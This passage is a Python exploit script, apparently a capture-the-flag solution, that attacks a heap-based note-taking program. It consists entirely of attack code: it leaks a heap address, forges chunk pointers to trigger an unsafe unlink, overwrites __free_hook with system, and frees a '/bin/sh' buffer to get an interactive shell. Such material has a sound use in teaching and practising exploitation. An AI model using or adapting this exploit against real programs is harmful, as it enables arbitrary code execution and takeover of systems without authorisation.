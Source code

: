     	# step 2: leak heap_addr
    	add_note('c',0x88,payload)
    	
    	show_note('a')
    	rl()
    	delete_note('ccc')
    	add_note('e',0x88,payload)
    	show_note('d')
    	rl()
    	delete_note('ccc')
    	show_note('\x00')
    	ru('content: ')
    	heap_addr = u64(rv(6).ljust(8,'\x00')) - 0x20
    	lg('heap_addr',heap_addr)
    
    	# step 3: unlink overwrite free_hook
    	add_note('h',0x18,'AAAAA')
    	show_note('e')
    	rl()
    	delete_note('ccc')
    	delete_note('f')
    	delete_note('b')
    	fake_fd = heap_addr + 0xc0 - 0x18
    	fake_bk = heap_addr + 0xc0 - 0x10
    	payload = p64(0) + p64(0x81) + p64(fake_fd) + p64(fake_bk)
    	payload = payload.ljust(0x80,'A')
    	payload += p64(0x80) + p64(0x90) + p64(0) + p64(0)
    	add_note('g',0x90,payload)
    	add_note('i',0x70,'AAAAA')
    	delete_note('c')
    
    	show_note('\x00')
    	rl()
    	delete_note('ccc')
    
    	free_hook = libc.symbols['__free_hook']
    	lg('free_hook',free_hook)
    	payload = p64(0x21) + p64(0x67) + p64(0x90) + p64(free_hook)
    	edit_note('g',payload)
    	#one_gadget = libc.address + 0xf02a4
    	system_addr = libc.symbols['system']
    	payload = p64(system_addr)
    	edit_note('g',payload)
    
    	add_note('aaa',0x18,'/bin/sh\0')
    	delete_note('aaa')
    	p.interactive()
    
    hack()

